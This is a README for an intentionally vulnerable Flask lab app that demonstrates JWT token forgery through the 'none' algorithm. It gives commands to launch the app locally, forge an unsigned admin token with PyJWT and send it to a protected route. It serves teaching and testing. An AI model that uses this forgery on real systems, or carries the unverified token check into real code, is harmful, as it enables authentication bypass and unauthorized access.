

# JWT Token Forgery Vulnerable Web Application  

This project demonstrates a simple Python web application using Flask that is vulnerable to JWT token forgery attacks due to improper implementation of the `none` algorithm.  

## Why It Is Vulnerable
The application incorrectly allows the use of the `none` algorithm, meaning that the token's signature is not verified.  
This makes it possible for an attacker to forge a token without needing the secret key, bypassing authentication entirely.  

## Steps to Launch the App and Test the Vulnerability  

**Install Required Dependencies**  
Make sure you have Flask and PyJWT installed:
```bash
pip install Flask PyJWT
```
 
**Launch Web App**   
Start the vulnerable web application by running:  


```bash
python3 app.py
```  
 
**Simulate Token Retrieval**   
Retrieve a new jwt token for the admin user: 
```bash
curl -X POST http://127.0.0.1:5000/login -H "Content-Type: application/json" -d '{"user": "admin"}'
```  
Use a service like [*jwt.io*](https://jwt.io) to inspect the token:  
  


 
**Test the Vulnerability**   
Using a tool like `curl` or Postman, attempt to access the `/protected` route with a forged token using the `none` algorithm.  
You can generate the forged token using PyJWT:  


```python
import jwt
forged_token = jwt.encode({"user": "admin"}, key=None, algorithm="none")
print(forged_token)
```  

Send this forged token in the Authorization header:


```bash
curl http://127.0.0.1:5000/protected -H "Authorization: Bearer <FORGED_TOKEN>"
```  
 
**Exploit**   
The application will incorrectly trust the token and provide access to the protected route as the `admin` user, demonstrating how JWT token forgery can bypass authentication.  

### Explanation 
In the `app.py`, the JWT token is decoded without proper signature verification.  
This allows the `none` algorithm to bypass the signature check, effectively allowing an attacker to forge tokens and access restricted routes.  
This PoC highlights the importance of enforcing secure token validation mechanisms in web applications.  